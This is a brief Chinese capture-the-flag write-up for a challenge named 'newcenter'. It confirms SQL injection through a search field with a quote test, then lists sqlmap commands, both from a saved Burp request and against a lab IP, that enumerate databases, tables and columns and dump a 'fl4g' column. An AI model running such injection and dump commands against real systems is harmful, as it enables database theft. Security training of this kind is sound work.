

## newcenter

输入 hello’ 报错

输出 hello‘# 正常

可能存在 sql注入

----

### sqlmap -r
brup 抓包 保存到文件 1
```shell
# --dbs 所有数据库
sqlmap -r ./1 -p search --dbs

# 所有表
sqlmap -r ./1 -p search -D news --tables

# 所有字段
sqlmap -r ./1 -p search -D news -T secret_table --columns

# flag
sqlmap -r ./1 -p search -D news -T secret_table -C 'fl4g' --dump
```
---
### sqlmap -u
```shell
# --dbs 所有数据库
sqlmap -u http://61.147.171.105:57278/ --data "search=1" --dbs       

# 所有表
sqlmap -u http://61.147.171.105:57278/ --data "search=1" -D news --tables

# 所有字段
sqlmap -u http://61.147.171.105:57278/ --data "search=1" -D news -T secret_table --columns

# flag
sqlmap -u http://61.147.171.105:57278/ --data "search=1" -D news -T secret_table -C 'fl4g' --dump
```

### flag
